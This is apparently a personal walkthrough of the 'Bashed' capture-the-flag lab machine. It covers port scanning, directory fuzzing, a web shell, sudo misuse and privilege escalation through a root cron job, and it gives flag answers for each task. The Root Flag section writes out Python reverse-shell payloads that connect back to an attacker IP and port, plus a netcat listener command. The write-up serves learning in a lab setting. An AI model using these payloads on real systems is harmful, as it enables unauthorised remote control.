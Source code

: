 # Tasks

[**How many open TCP ports are listening on Bashed?**](#task-1)

[**What is the relative path on the webserver to a folder that contains phpbash.php?**](#task-2)

[**What user is the webserver running as on Bashed?**](#task-3)

[**User Flag**](#user-flag)

[**www-data can run any command as a user without a password. What is that user's username?**](#task-5)

[**What folder in the system root can scriptmanager access that www-data could not?**](#task-6)

[**What is filename of the file that is being run by root every couple minutes?**](#task-7)

[**Root Flag**](#root-flag)

# Tools Used

- nmap
- gobuster

# Skills Used

- Directory fuzzing

# Solutions

## Task 1

I did this first:

```
nmap -sCV [IP Address]
```

Only port 80 showed:

![image](https://github.com/user-attachments/assets/fbfc0cb3-eeed-447c-86f6-5fcce1245392)

So, considering it was only port 80 (which was strange), I tried using the ``-sS`` flag to show all TCP ports.

It was the same thing :///

**Answer: 80**

## Task 2

_Gobuster_ time:

```
gobuster dir -u http://[IP Address] -w /usr/share/dirb/wordlists/common.txt -x php
```

Also, you can use other wordlists if you like, and maybe include other file extensions.

![image](https://github.com/user-attachments/assets/d233af5b-05a6-4c3b-b7e8-209ab2cb79f8)

After that, I checked each directory one-by-one (yes I know, it's inefficient, but I forgot what the command was to recursively search endpoints lmao).

I found it here in _/dev_:

![image](https://github.com/user-attachments/assets/10525665-1438-4bbd-8729-aa6fcfb10c67)

**Answer: /dev**

## Task 3

Naturally, I got curious as to why we want to see ```phpbash.php```:

![image](https://github.com/user-attachments/assets/09c6df72-8ce9-45eb-997d-fe2c968fbfeb)

Apparently it really was a bash lmao.

Anyways, apparently I'm either blind or retarded lmao, I misread the task as "find the name of the webserver on Bashed", when I just needed to find the _user_ ://

It was one of the first commands I ran too:

![image](https://github.com/user-attachments/assets/36dca046-6585-4d1f-a557-c0b4d97a2807)

See ://

**Answer: www-data**

## User Flag

Here you go:

![image](https://github.com/user-attachments/assets/6964a817-0da7-4aaa-97ef-03760a56bd61)

**Answer: c9097fe5a29264941a6b3a7798018454**

## Task 5

Simple ```sudo -l``` will do:

![image](https://github.com/user-attachments/assets/0a689431-444f-40cc-baeb-120a7b783399)

**Answer: scriptmanager**

## Task 6

Simple ```ls -l``` will do (no need for ```-a``` since we don't need to see hidden files here, just permissions):

![image](https://github.com/user-attachments/assets/4f9193c8-712f-4b6f-ae9a-403f37a02cdf)

**Answer: scripts**

## Task 7

Ok so, I looked at the official writeup and it made me notice that I can run any command as _scriptmanager_, which I kinda overlooked lmao.

So anyways, I switched to that user real quick with this:

```
sudo -u scriptmanager bash -i
```

That way, I can do more stuff.

Or at least, I would've if it'd let me ://

So instead, I just used ```cat``` as _scriptmanager_ lmao.

![image](https://github.com/user-attachments/assets/a1a9bc3e-e027-4b38-8075-56bb20221c05)

So, supposedly this was the file that was being executed every few minutes, but I don't actually have proof now do I.

So now, I'm gonna go look for proof...

![image](https://github.com/user-attachments/assets/a055dacf-0118-4895-8dc3-930876ac3ba2)

I found proof :D, test runs every 6 minutes (if I'm reading it right).

Embarassingly, I forgot cronjobs were not daemons lmao.

**Answer: test.py**

## Root Flag

So I've been stuck on this for wayyyyy to long, cuz I forgot to establish an inital reverse shell that was more interactive than the web shell given to us by _phpbash.php_.

Basically, here's what I did to finally get out of that roadblock:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(([IP Address],[Port]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

Real simple right?

Yeah I forgot to do that lmao.

Anyways, on my main machine, I was listening for the request via:

```
nc -lvnp [Port]
```

So now, I can finally do this:

![image](https://github.com/user-attachments/assets/bfc89e88-06af-4a97-beca-0c23cde01eba)

Now that it's interactive, I can establish a shell as _scriptmanager_, FINALLY.

Anyways, now we gotta tweak that _test.py_ file to establish a reverse shell, so since we already used a python script to establish that, we may as well reuse that and just change the port to a different one.

**P.S.** In the [**revshell generator**](https://www.revshells.com/), be sure to set the shell to _/bin/sh_ (that's what worked for me).

Here's the exact scripts just for future reference:

```
import socket,subprocess,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh");
```

Also now that I look at it properly, you can probably get away with not importing ```subprocess``` since we're not using it to get a shell anyway lol.

Anyways, after a wee bit of waiting (and after partially [stabilizing](https://medium.com/@varunrajamirtharaj/stabilizing-a-shell-getting-a-fully-functional-tty-31232897f2f5) my interactive shell to use _nano_), I finally got what I wanted.

![image](https://github.com/user-attachments/assets/8087966f-ab6f-4c90-be3d-9b61f293f0b5)

That honestly took wayyyy too long (even with writeups lmao), but it was still pretty fun regardless.

**Answer: b48a1c0925f34e00d21827778ddc9a26**
